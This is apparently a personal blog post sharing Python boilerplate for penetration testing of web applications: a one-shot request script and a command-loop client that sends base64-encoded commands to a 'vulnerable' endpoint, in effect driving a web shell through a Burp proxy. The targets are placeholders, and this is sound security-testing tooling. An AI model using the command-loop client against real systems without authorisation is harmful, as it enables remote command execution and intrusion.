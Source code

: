 ```yaml
---
layout: post
title: Python Web Exploit Boilerplate
date: 2023-06-09 21:15 -0400
categories: [Python]
tags: [python, boilerplate, requests, hacking, web]
---
```


If I find a potential attack vector in which I can use Burpsuite Repeater or something, and I just generally want to work with the command line, I typically will code up a quick python script to interact with the vulnerable code. I just wanted to put a little boilerplate script that I can copy from so I don't have to start over from scratch every time. I expect that this will be a living document that I will modify as I learn new things.

## Execute from command line per execution

```python
#!/usr/bin/env python3

import requests
import sys

URL = "http://path/to/vulnerable/code.php"
PROXIES = { # For burpsuite
           "http": "http://localhost:8080",
           "https": "http://localhost:8080"
          }

def make_request(item):
    data = {
        "foo": item,
        "bar": "baz",
    }

    # or if doing json, make sure to import json above if you
    # need to read json data, otherwise this should be fine
    #
    # json = {
    #     "foo": item,
    #     "bar": "baz",
    # }
    # Then set json=json in below
    r = requests.post(URL, proxies=PROXIES, data=data)
    
    # you can add an if statement to check if a value will be
    # present in the response data
    # if "foo bar baz" in r.text:
    #     return r.text

    return r.text

if __name__ == "__main__":
    print(make_request(sys.argv[1]))
```

## Execute from Command Loop

Make your own little command loop. I'll even make a neato prompt that I like to use. When this program executes, it will take every line sent to it and pass it through the remote endpoint.

```python
#!/usr/bin/env python3

import cmd
import requests
import base64
import sys

URL = "http://path/to/vulnerable/code"
PROXIES = { # for Burpsuite
    "http": "http://localhost:8080",
    "https": "http://localhost:8080",
}

class Terminal(cmd.Cmd):
    prompt = "Agr0 => "
    def default(self, args):
        out = sendReq(args)
        print(f"Got: {out.decode('utf-8')}")

    def do_exit(self, args):
        print("Bye!")
        sys.exit(0)

def sendReq(command):
    """
    sends a request to the endpoint. this needs to be b64 encoded first
    """
    # Base64 encoded just for fun
    out_data = base64.b64encode(command.encode()).decode("utf-8")
    data = {"cmd": out_data} # Whatever you want to put here

    r = requests.post(url=URL, proxies=PROXIES, data=data)

    return r.text

term = Terminal()
term.cmdloop()
```

Hopefully you find this as useful as I do.